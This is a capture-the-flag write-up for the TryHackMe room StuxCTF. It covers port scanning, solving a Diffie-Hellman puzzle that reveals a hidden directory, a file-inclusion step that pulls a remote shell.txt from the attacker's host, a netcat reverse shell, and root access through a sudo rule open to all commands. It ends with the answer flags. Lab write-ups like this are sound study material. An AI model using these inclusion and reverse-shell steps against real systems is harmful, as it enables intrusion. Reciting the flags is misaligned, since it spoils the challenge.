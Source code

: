 # StuxCTF

Crypto, serealization, priv scalation and more ...!

[StuxCTF](https://tryhackme.com/room/stuxctf)

## 💢 We will cover  the topics

- Network Enumeration
- Web Poking
- Cryptography
  - AES
- Local File Inclusion
- Misconfigured Binaries



---------------------------------

## Task 1 StuxCTF

Read user.txt and root.txt

```
kali@kali:~/CTFs/tryhackme/StuxCTF$ sudo nmap -A -sS -sC -sV -O 10.10.66.221
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 16:43 CEST
Nmap scan report for 10.10.66.221
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/StuxCTF/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Default Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/13%OT=22%CT=1%CU=41085%PV=Y%DS=2%DC=T%G=Y%TM=5F85BD
OS:37%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.03 ms 10.8.0.1
2   36.33 ms 10.10.66.221

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.30 seconds
```

[http://10.10.66.221/robots.txt](http://10.10.66.221/robots.txt)

```
# robots.txt generated by StuxCTF
# Diffie-Hellman
User-agent: *
Disallow:
Disallow: /StuxCTF/
```

[http://10.10.66.221/StuxCTF/](http://10.10.66.221/StuxCTF/)

[view-source:http://10.10.66.221/](view-source:http://10.10.66.221/)

```
<html>
	<head>
		<title>Default Page</title>
	</head>
	<body>
		<!-- The secret directory is...
		p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
		g: 7;
		a: 330;
		b: 450;
		g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
		-->
		is blank....
	</body>
</html>
```

p: `9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251`;
g: `7`;
a: `330`;
b: `450`;
g^c: `6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617`;

[http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/](http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/)

```html
<!DOCTYPE html>
    <head>
        <title>StuxCTF</title>
	<meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" />
        <link rel="stylesheet" href="assets/css/style.css" />
    </head>
        <body>
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                <span class="sr-only">Toggle navigation</span>
              </button>
              <a class="navbar-brand" href="index.php">Home</a>
            </div>
          </div>
        </nav>
        <!-- hint: /?file= -->
        <div class="container">
            <div class="jumbotron">
				<center>
					<h1>Follow the white rabbit..</h1>
				</center>
            </div>
        </div>
        <script src="assets/js/jquery-1.11.3.min.js"></script>
        <script src="assets/js/bootstrap.min.js"></script>
    </body>
</html>
```

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.8.106.222:80/shell.txt`

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/n.php`

```
kali@kali:~/CTFs/tryhackme/StuxCTF$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.66.221] 35024
whoami
www-data
pwd
/var/www/html/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
cd /home
ls
grecia
cd grecia
ls
user.txt
cat user.txt
0b6044b7807dd100b9e30f1bd09db53f
```

```
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
sudo su
whoami
root
cd /root
ls
root.txt
cat root.txt
0028454003b42601548df551b738976c
```

1. user.txt

`0b6044b7807dd100b9e30f1bd09db53f`

2. root.txt

`0028454003b42601548df551b738976c`

3. What is the hidden directory? HINT: `g ^ a mod p, g ^ b mod p, g ^ C mod p` first 128 characters ...

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055`
